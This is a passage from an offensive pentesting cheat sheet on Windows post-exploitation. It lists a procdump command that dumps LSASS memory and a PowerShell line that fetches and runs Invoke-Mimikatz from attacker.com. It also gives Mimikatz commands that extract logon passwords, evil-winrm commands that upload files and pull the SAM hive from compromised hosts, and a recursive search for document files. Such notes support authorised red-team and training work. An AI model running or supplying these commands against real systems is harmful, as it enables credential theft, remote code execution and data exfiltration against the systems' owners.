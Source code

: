 Dump [LSASS](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service)
(*requires admin*)

```sh
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

Extract credentials with [[Mimikatz]]

> [!example]-
>
> 1. Run Mimikatz
>
> ```sh
> IEX(New-Object Net.WebClient).DownloadString('http://attacker.com/Invoke-Mimikatz.ps1')
> Invoke-Mimikatz -DumpCreds
> ```
>
> 2. Extract credentials from memory
>
> ```sh
> privilege::debug
> ```
> ```sh
> sekurlsa::logonpasswords
> ```


___




## File Operations

Perform file operations on compromised WinRM systems

Upload file ([evil-winrm](https://github.com/Hackplayers/evil-winrm))

```sh
upload </local/path/file.exe> <C:\Windows\Temp\file.exe>
```

Download file ([evil-winrm](https://github.com/Hackplayers/evil-winrm))

```sh
download C:\Windows\System32\config\SAM </tmp/sam>
```

Copy files

```sh
Copy-Item -Path <\\source\share\file.txt> -Destination <C:\Temp\>
```

Search for interesting files

```sh
Get-ChildItem -Path C:\ -Include *.txt,*.pdf,*.doc,*.xls -Recurse -ErrorAction SilentlyContinue
```
